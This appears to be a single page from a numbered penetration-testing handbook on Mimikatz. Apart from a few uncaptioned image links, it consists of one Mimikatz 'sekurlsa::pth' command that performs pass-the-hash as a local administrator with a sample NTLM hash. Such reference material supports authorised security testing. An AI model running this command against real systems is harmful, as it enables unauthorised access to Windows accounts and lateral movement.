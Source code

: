 ```yaml
---
title: "4.2.4.1 Mimikatz"
id: zhfly3429
---
```


#### 4.2.4.1 Mimikatz

![image](../img/f711b347de20033186f04c266ddaaa21.png)

![image](../img/540004dad82c0f7c435f152ddd1ee5e9.png)

```
mimikatz # sekurlsa::pth /user:administrator /domain:. /ntlm:c5113714efbff7fa196f2e2b50938a8f 
```

![image](../img/b03b474d03bd6c8966010f4b054a4314.png)